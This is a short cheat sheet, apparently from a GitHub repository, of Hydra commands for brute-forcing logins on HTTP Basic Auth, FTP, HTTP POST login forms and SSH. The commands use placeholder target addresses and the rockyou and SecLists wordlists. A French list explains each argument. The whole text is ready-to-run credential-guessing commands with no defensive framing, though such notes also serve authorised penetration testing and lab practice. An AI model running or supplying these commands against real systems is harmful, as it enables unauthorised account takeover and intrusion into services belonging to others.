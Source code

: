# Basic Auth
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -vV x.x.x.x http-get
```

# FTP
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt -vV –f ftp://x.x.x.x
hydra -l username -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt -vV –f ftp://x.x.x.x
```
# POST
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -vV x.x.x.x -s 80 http-post-form "/login:user=^USER^&password=^PASS^:F=Invalid" -I
```

# SSH
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -vV x.x.x.x ssh 
```

Explication des arguments
  - -f => Arrêter si une connexion est réussie
  - -I => Ignorer un fichier de restauration (d'une précédente tentative)
  - -l => Nom d'utilisateur à utiliser pour tenter une connexion en FTP
  - -L => Liste de nom d'utilisateur à utiliser pour tenter une connexion en FTP
  - -P => Liste de mot de passe à utiliser pour tenter une connexion en FTP
  - -s => Port à utiliser
  - -v => Mode verbose
  - -V => Montrer les tentatives
  - http-post-form => Body du form à utiliser sur le formulaire du site
